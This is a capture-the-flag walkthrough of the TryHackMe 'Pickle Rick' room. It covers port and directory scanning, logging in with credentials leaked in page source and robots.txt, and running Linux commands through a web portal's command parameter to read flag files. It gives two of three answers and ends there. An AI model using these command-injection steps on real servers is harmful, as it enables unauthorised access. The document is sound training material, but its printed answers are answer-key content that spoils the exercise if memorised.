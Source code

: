# Pickle Rick CTF Walkthrough

## Challenge Overview
[Pickle Rick CTF](https://tryhackme.com/room/picklerick) is a Rick and Morty-themed challenge that requires exploiting a web server to find three hidden ingredients. These ingredients help Rick transform back into his human form.

### Deployment
- Deploy the virtual machine and access the web application at: `MACHINE_IP`

## Enumeration

### Nmap Scan
```
nmap -sC -A -Pn 10.10.52.134
```
**Findings:**
- Open ports:
  - **22/tcp** - SSH (OpenSSH 8.2p1 Ubuntu)
  - **80/tcp** - HTTP (Apache 2.4.41 Ubuntu)
- Web server title: `Rick is sup4r cool`

### Directory Enumeration with DIRB
```
dirb http://10.10.52.134
```
**Findings:**
- `/robots.txt` - Contains: `Wubbalubbadubdub`
- `/index.html` - Source code reveals username: `R1ckRul3s`
- `/server-status` - Forbidden (403)
- `/assets/` - Public directory

### Gobuster Scan
```
gobuster dir -u http://10.10.52.134/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -x .php
```
**Findings:**
- `/login.php` - Login page
- `/portal.php` - Redirects to login.php
- `/denied.php` - Redirects to login.php

## Exploitation

### Web Portal Login
- **Username:** `R1ckRul3s` (from `index.html` source code)
- **Password:** `Wubbalubbadubdub` (from `robots.txt`)
- **Successful login** redirects to `portal.php`

### Command Execution
- `portal.php` allows command execution.
- Commands are restricted, but using **BurpSuite Repeater**, we can modify the `command=` parameter to execute Linux commands.

### Finding the First Ingredient
- Listing files in the root directory:
  ```
  command=ls -la&sub=Execute
  ```
- **Findings:**
  - `Sup3rS3cretPickl3Ingred.txt`
  - `clue.txt`
- Viewing `Sup3rS3cretPickl3Ingred.txt`:
  ```
  command=less Sup3rS3cretPickl3Ingred.txt&sub=Execute
  ```
  **First ingredient:** `mr. meeseek hair`

### Finding the Second Ingredient
- Viewing `clue.txt`:
  ```
  command=less clue.txt&sub=Execute
  ```
  - Clue suggests searching the file system.
- Navigating to `/home/rick/`:
  ```
  command=ls -la /home/rick&sub=Execute
  ```
  - Found a directory named `second ingredients`.
- Viewing `second ingredients`:
  ```
  command=less "/home/rick/second ingredients"&sub=Execute
  ```
  **Second ingredient:** `1 jerry tear`

### Next Steps
- The third ingredient is still missing.
- Continue searching system files or escalating privileges to find the last ingredient.

## Conclusion
So far, we've gathered **two out of three** ingredients by leveraging directory enumeration, source code analysis, and command execution on the portal page. The next step is to find the final ingredient and complete the challenge.

